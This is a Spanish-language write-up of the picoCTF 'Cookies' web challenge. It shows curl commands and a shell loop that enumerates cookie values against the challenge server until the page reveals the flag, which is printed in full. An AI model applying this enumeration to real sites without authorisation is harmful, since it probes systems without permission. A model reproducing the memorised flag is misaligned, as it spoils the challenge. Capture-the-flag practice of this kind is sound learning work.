 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)
## Solución
- ##### Se realiza la solución del problema mediante la terminal de Kali. Trataremos de ver las cookies una por una, pero para agilizar procesos, realizaremos un ciclo "for" para revisar todas las cookies del sitio y solo mostraremos con un "grep" la que contenga "picoCTF" y así obtenemos la bandera.
``` bash
┌──(kali㉿kali)-[~]
└─$ curl http://mercury.picoctf.net:64944/check -H "Cookie: name=1" 
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>
        
        <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->
        
        
        <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
          <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            </div>
      
      
      
        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
    <script>
    $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
    });
    </script>
</body>

</html>                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>

```
## Notas Adicionales
- Las cookies son pequeños fragmentos de texto que los sitios web que visitas envían al navegador. Permiten que los sitios web recuerden información sobre tu visita, lo que puede hacer que sea más fácil volver a visitar los sitios y hacer que estos te resulten más útiles.
## Referencias
- [PicoCTF](https://play.picoctf.org)
- [PicoCTF Writeups](https://www.youtube.com/playlist?list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&authuser=0)